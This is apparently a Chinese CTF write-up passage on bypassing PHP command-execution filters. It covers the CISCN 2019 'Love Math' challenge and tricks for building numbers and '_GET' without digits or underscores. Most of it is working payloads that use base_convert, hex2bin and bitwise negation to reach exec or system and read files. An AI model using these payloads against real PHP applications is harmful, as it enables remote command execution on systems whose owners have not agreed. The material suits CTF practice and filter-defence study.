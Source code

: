 ```
dechex(1598506324) => "5f474554"
$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串
($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  //{}可以代替[]
```
另一种payload是这样
```php
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})
```
分析：
```
base_convert(696468,10,36) => "exec"
$pi(8768397090111664438,10,30) => "getallheaders"
exec(getallheaders(){1})
//操作xx和yy，中间用逗号隔开，echo都能输出
echo xx,yy
既然不能$_GET，那就header传
```
![](https://img-blog.csdnimg.cn/20200320141415534.png)
直接想办法catflag也是可以的
```php
//exec('hex2bin(dechex(109270211257898))') => exec('cat f*')
($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))
//system('cat'.dechex(16)^asinh^pi) => system('cat *')
base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
```
[刷题记录：[CISCN 2019 初赛]Love Math](https://www.cnblogs.com/20175211lyz/p/11588219.html)

#### 命令执行绕过
**不用数字构造出数字**
利用了 PHP 弱类型特性，true 的值为 1，故 true+true==2。
```php
<?php
$_=('>'>'<')+('>'>'<');
print($_);
print($_/$_);
```
结果会输出：2 1

在 php 中未定义的变量默认值为 null，`null==false==0`，所以我们能够在不使用任何数字的情况下通过对未定义变量的自增操作来得到一个数字。
```php
<?php
$_++;
print($_);
```
结果会输出：1
```php
<?php
print(!!_);
```
![](https://img-blog.csdnimg.cn/20200915000040693.png)


**过滤了`_`**
```php
?><?=`{${~"%a0%b8%ba%ab"}[%a0]}`?>
```
分析下这个Payload，`?>`闭合了eval自带的`<?`标签。接下来使用了短标签。`{}`包含的PHP代码可以被执行，`~"%a0%b8%ba%ab"`为`"_GET"`，通过反引号进行shell命令执行。最后我们只要GET传参`%a0`即可执行命令

